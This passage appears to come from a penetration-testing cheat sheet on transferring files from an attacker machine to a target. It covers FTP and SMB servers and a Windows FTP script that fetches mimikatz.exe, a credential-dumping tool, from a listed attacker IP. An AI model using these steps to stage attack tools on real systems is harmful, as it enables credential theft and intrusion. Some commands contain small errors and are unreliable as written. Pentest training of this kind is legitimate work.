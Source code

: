 ### FTP server (NodeJS)

```
sudo npm install -g ftp-srv --save
ftp-srv ftp://0.0.0.0:9876 --root /tmp
```

### FTP server (pure-ftp)

```bash
apt-get update && apt-get install pure-ftp
```

```bash
#Run the following script to configure the FTP server
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pwd useradd fusr -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

### **Windows** client

```bash
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```

## SMB

Kali as server

```bash
kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
#For new Win10 versions
impacket-smbserver -smb2support -user test -password test test `pwd`
```

Or create a **smb **share **using samba**:

```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
#Start samba
service smbd restart
```
